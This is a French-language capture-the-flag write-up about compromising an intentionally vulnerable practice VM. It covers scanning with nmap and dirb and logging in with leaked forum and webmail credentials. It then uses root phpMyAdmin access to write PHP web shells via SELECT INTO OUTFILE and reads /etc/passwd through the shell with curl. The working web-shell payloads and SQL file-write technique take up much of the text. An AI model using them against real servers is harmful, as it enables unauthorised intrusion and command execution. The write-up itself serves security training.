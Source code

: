# WRITEUP1

Après installation et lancement de la VM, on nous demande un mot de passe et l'adresse ip de la machine n'est pas indiqué.
On cherche a scanner un port ouvert part notre vm, pour cela, on configure le réseau de notre vm (sur VM box) en accès par pont.
On cherche à trouver une potentiel adresse ip créé par la VM  :

```bash
λ arp -a

Interface : 192.168.99.1 --- 0x6
  Adresse Internet      Adresse physique      Type
  192.168.99.255        ff-ff-ff-ff-ff-ff     statique
  ....

Interface : 192.168.1.26 --- 0x8
  Adresse Internet      Adresse physique      Type
  192.168.1.1           6c-ba-b8-be-0a-20     dynamique
  192.168.1.10          20-9a-7d-c0-45-d5     dynamique
  192.168.1.11          78-dd-12-93-0b-02     dynamique
  192.168.1.12          ec-b5-fa-31-6f-1f     dynamique
  192.168.1.13          48-ba-4e-c5-ce-7e     dynamique
  192.168.1.14          48-d6-d5-71-33-6d     dynamique
  192.168.1.15          42-e5-79-05-cc-33     dynamique
  192.168.1.16          84-b8-b8-04-7f-fb     dynamique
  192.168.1.17          e0-ac-cb-33-5b-bf     dynamique
  192.168.1.22          08-00-27-99-d9-06     dynamique
  224.0.0.250           01-00-5e-00-00-fa     statique
  224.0.0.251           01-00-5e-00-00-fb     statique
  224.0.0.252           01-00-5e-00-00-fc     statique
  224.0.1.60            01-00-5e-00-01-3c     statique
  239.255.255.250       01-00-5e-7f-ff-fa     statique
  239.255.255.251       01-00-5e-7f-ff-fb     statique
  ...

```

On peut également trouver l'adrese ip directement dans les configs du routeur.

On cherche maintenant a tester les différentes adresses de type `dynamique` avec la commande ping.
Plusieurs adresses répondes, on peut les essayer une part une avec `nmap` :

```bash
λ nmap 192.168.1.22 
Nmap scan report for IP (IP)
Host is up (0.0055s latency).
Not shown: 987 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
119/tcp open  nntp
143/tcp open  imap
443/tcp open  https
465/tcp open  smtps
563/tcp open  snews
587/tcp open  submission
993/tcp open  imaps
995/tcp open  pop3s
Nmap done: 1 IP address (1 host up) scanned in 4.71 seconds
```

L'adresse `192.168.1.22` dispose d'un site web qui nous affiche une page avec ecrit `HACK ME`. Après différents tests et quelques recherche on trouve différents moyen de découvrir des fails et d'autres pages accessibles.

Nous avons utilisez les `web scanner` `Arachni`, `dirb` et `nikto`, tous présent par défault sur l'os `kali` .

Nous allons travailler avec l'os `Kali` sur `wsl` à partir de maintenant car celui-ci inclut la plupart des outils de `Pen Testing` dont nous aurons besoin par la suite .

```bash
└─$ dirb https://192.168.1.22/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Wed Sep  8 13:21:51 2021
URL_BASE: https://192.168.1.22/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.1.22/ ----
+ https://192.168.1.22/cgi-bin/ (CODE:403|SIZE:289)
==> DIRECTORY: https://192.168.1.22/forum/
==> DIRECTORY: https://192.168.1.22/phpmyadmin/
+ https://192.168.1.22/server-status (CODE:403|SIZE:294)
==> DIRECTORY: https://192.168.1.22/webmail/
```

Grace a ces `web scanner` on identifie de nouvelles pages accessibles : `/forum`, `/phpmyadmin`, `/webmail`.
Dans le post `Probleme login?` du forum, on peut voir des tentatives de connections avec différents nom d'user et ce qui ressemble a un mot de passe :

```bash
Oct 5 08:45:29 BornToSecHackMe sshd\[7547\]: Failed password for invalid user !q\\\]Ej?\*5K5cy\*AJ from 161.202.39.38 port 57764 ssh2  
Oct 5 08:45:29 BornToSecHackMe sshd\[7547\]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail \[preauth\]  
Oct 5 08:46:01 BornToSecHackMe CRON\[7549\]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```

On reussi a se logger avec le nom d'user `lmezard` et le mot de passe `!q\\\]Ej?\*5K5cy\*AJ` au forum. Sur le profil de l'utilisateur on obtien l'adresse email de l'user : `laurie@borntosec.net`. On essaye de se logger sur `http://192.168.1.22/webmail` avec l'addresse email et le précédent mot de passe. On se connecte.
Un des emails de l'utilisateur nous donne un accès à la page `phpmyadmin` :  

```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

phpmyadmin user: `root`
phpmyadmin password: `Fg-'kKXBj87E:aJ$`

Maintenant que l'on a un accès root à la db SQL, on cherche a faire une exploit appelé `web shell`. Grâce a `dirb` on peut obtenir une liste des dossiers utilisés par le site: 

```bash
└─$ dirb https://192.168.1.22/forum/

...

==> DIRECTORY: https://192.168.1.22/forum/js/
==> DIRECTORY: https://192.168.1.22/forum/lang/
==> DIRECTORY: https://192.168.1.22/forum/modules/
==> DIRECTORY: https://192.168.1.22/forum/templates_c/
==> DIRECTORY: https://192.168.1.22/forum/themes/
==> DIRECTORY: https://192.168.1.22/forum/update/

└─$ dirb https://192.168.1.22/webmail/

...

==> DIRECTORY: https://192.168.1.22/webmail/plugins/
==> DIRECTORY: https://192.168.1.22/webmail/src/
==> DIRECTORY: https://192.168.1.22/webmail/themes/
```

On cherche a obtenir le dossier par default du serveur web :

```bash
└─$ whatweb https://192.168.1.22/
https://192.168.1.22/ [404 Not Found] Apache[2.2.22], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.2.22 (Ubuntu)], IP[192.168.1.22], Title[404 Not Found]
```
Le serveur tourne sur Apache 2 donc `/var/www` pour le dossier par default.

On cherche a créé une nouvelle page qui nous permettera d'utiliser le `shell`. Pour cela on utilise la commande `
SELECT "<? system($_REQUEST['cmd']); ?>",2,3,4 INTO OUTFILE "/var/www/{folder}/{filename}.php" -- 1` avec les différents dossiers disponible pour en trouver un avec les droits d'écriture. On arrive a écrire notre fichier dans le dossier `templates_c`.

La requete sql pour créé notre fichier web_shell:

```sql
SELECT "<html><body><pre><form method=\"GET\" name=\"<?php echo basename($_SERVER['PHP_SELF']); ?>\"><input type=\"TEXT\" name=\"cmd\" autofocus id=\"cmd\" size=\"80\"><input type=\"SUBMIT\" value=\"Execute\"></form><?php if(isset($_GET['cmd'])){echo 'Shell: ';system($_GET['cmd']);}?></pre></body></html>" INTO OUTFILE '/var/www/forum/templates_c/web_shell.php'
```

une option simplifier sans le html pour curl :

```sql
SELECT "<?php if(isset($_GET['cmd'])){system($_GET['cmd']);}?>" INTO OUTFILE '/var/www/forum/templates_c/curl_shell.php'
```

On recupère le nom de notre utilisateur:

```bash
└─$ curl -k https://192.168.1.22/forum/templates_c/curl_shell.php?cmd=whoami
www-data
```

On liste les autres users:
```bash
└─$ curl -k https://192.168.1.22/forum/templates_c/curl_shell.php?cmd=cat+/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
whoopsie:x:103:107::/nonexistent:/bin/false
landscape:x:104:110::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
mysql:x:106:115:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:107:116:ftp daemon,,,:/srv/ftp:/bin/false
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie:x:1003:1003:,,,:/home/laurie:/bin/bash
thor:x:1004:1004:,,,:/home/thor:/bin/bash
zaz:x:1005:1005:,,,:/home/zaz:/bin/bash
dovecot:x:108:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:109:65534:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:110:118::/var/spool/postfix:/bin/false
```

